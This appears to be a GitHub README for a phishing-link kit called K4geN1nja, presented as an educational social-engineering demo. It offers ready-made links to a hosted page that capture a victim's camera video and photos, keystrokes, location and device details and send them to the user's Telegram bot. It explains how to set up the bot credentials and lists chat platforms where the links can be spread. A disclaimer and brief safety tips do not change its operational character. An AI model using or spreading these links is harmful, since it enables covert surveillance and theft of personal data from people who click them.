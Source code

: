 ## 🧑‍💻 K4geN1nja

This **semi-open source** project demonstrates how hackers use social engineering to collect a user's device information through a malicious link. Learn how this method works and how to protect yourself.

---

## 🧠 How It Works

**📸 Data Reception on public code API**

![public](https://i.postimg.cc/3xp1PkXT/IMG-20250730-155932.jpg)

**📸 Data Reception on private code API**

![private](https://i.postimg.cc/ZnBppQjS/IMG-20250730-155721.jpg)

**🎥 Educational Demo**
> https://youtu.be/8tWrX9j5Nuo

---

## 🛡️ How to Stay Safe

* Avoid clicking on suspicious links.
* Use **Firefox or Brave or Tor Browser** for enhanced security, as it blocks many malicious scripts by default.

**📱 Browser safety comparison**

![safety](https://i.postimg.cc/hjswYpk6/IMG-20250730-163909.jpg)

---

**🌐 Free Hosting & Subdomain**

> https://youtu.be/TV8CI3w6PlE

---

## ⚙️ Build Your Own Site

Create a similar setup by entering your **Telegram Bot Token** and **Chat ID** on the platform below 🔒

> [▶️ Launch Test Site](https://vide0chat.vercel.app/)

---

## 📚 Setup Guide

1. **Get Your Telegram Bot Token** and **Chat ID** by following this tutorial:

> https://youtube.com/shorts/ZvCdiTS-uGw

---

## 🚀 Public & Private Comparison

| Variant            | Use-Case                   |
| -------------------|--------------------------- |
|🌐 Public Code API  | Study, audit, learn        |
|⚡ Private Code API | Controlled red-team drills |

---

## 📋 Quick API

**Front c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-b.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Front c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**keyb0@rd & l0c@tion**

```bash
https://vide0chat.vercel.app/main.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

⚠️ **Replace** `YOUR_TOKEN` and `YOUR_CHAT_ID` with your actual Telegram Bot Token and Chat ID.

---

## 🚀 API Works on: 
- Telegram  
- Facebook Messenger  
- Instagram  
- Discord  
- Any platform that supports clickable links and embedded previews

---

> **⚠️ Warning:** This project is **educational only**. Do **not** engage in unauthorized access or use for malicious purposes. **Always obtain explicit consent** before performing any securi
ty testing.
